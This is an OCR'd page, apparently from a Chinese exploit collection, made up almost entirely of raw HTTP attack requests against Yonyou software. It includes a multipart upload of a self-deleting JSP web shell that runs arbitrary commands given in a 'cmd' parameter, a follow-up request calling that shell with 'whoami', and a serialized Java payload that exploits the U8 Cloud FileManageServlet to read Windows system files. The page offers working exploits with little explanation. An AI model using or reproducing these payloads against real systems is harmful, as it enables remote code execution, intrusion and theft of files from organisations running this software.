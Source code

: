   
漏洞利用请求（上传 WebShell + 执行命令）  

```
POST /common/uploadFile.jsp?action=save&savePath=/images/upload/&fileName=123.jpg&title1=%C9%CF%B4%AB%CE%C4%BC%FE&title2=%D1%A1%D4%F1%CE%C4%BC%FE&allowsize=null&extName=.jsp HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.1018.84 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123456789




------WebKitFormBoundary123456789
Content-Disposition: form-data; name=&#34;accessory&#34;; filename=&#34;123.jsp&#34;
Content-Type: application/octet-stream


<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();
int a = -1;byte[] b = new byte[2048];
while((a=in.read(b))!=-1){out.println(new String(b));}
new java.io.File(application.getRealPath(request.getServletPath())).delete();
%>
------WebKitFormBoundary123456789--


```

  
访问 WebShell 执行命令  

```
GET /images/upload/123.jsp?cmd=whoami HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.2331.38 Safari/537.36


```

  
  
漏洞描述：  
用友U8 Cloud FileManageServlet存在任意文件读取  
  
漏洞描述：  

```
POST /service/FileManageServlet HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/octet-stream


{{unquote(&#34;\xac\xed\x00\x05sr\x00\x11java.util.HashMap\x05\x07\xda\xc1\xc3\x16`\xd1\x03\x00\x02F\x00\x0aloadFactorI\x00\x09thresholdxp?@\x00\x00\x00\x00\x00\x0cw\x08\x00\x00\x00\x10\x00\x00\x00\x03t\x00\x04patht\x00\x12C:\\Windows\\win.init\x00\x06dsNamet\x00\x03plmt\x00\x08operTypet\x00\x0ddownloadlocalx&#34;)}}
```
